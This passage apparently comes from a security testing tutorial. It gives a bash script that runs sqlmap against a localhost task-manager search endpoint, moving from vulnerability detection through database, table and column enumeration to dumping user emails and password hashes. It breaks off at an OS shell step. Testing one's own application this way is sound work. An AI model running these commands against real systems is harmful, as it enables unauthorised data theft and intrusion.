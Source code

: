 ### Scenario 2: Automated SQLMap Integration

**Objective**: Leverage professional tools for comprehensive testing

```bash
#!/bin/bash
# Professional SQL Injection Testing with SQLMap

echo "=== SQLMap Professional Testing Suite ==="

# Configuration
TARGET_URL="http://localhost:3000/api/tasks/search?query=test"
TOKEN="your_jwt_token_here"
COOKIE="token=$TOKEN"

# Test 1: Basic vulnerability detection
echo "[1] Basic vulnerability detection..."
sqlmap -u "$TARGET_URL" \
       --cookie="$COOKIE" \
       --batch \
       --level=3 \
       --risk=3 \
       --random-agent

# Test 2: Database enumeration
echo "[2] Database enumeration..."
sqlmap -u "$TARGET_URL" \
       --cookie="$COOKIE" \
       --dbs \
       --batch

# Test 3: Table enumeration
echo "[3] Table enumeration..."
sqlmap -u "$TARGET_URL" \
       --cookie="$COOKIE" \
       -D taskmanager \
       --tables \
       --batch

# Test 4: Column enumeration
echo "[4] Column enumeration..."
sqlmap -u "$TARGET_URL" \
       --cookie="$COOKIE" \
       -D taskmanager \
       -T users \
       --columns \
       --batch

# Test 5: Data extraction
echo "[5] Data extraction..."
sqlmap -u "$TARGET_URL" \
       --cookie="$COOKIE" \
       -D taskmanager \
       -T users \
       -C id,email,password_hash \
       --dump \
       --batch

# Test 6: Advanced techniques
echo "[6] Advanced exploitation..."

# OS shell access (if possible)
sqlmap -u "$TARGET_URL" \
       --cookie="$COOKIE" \
```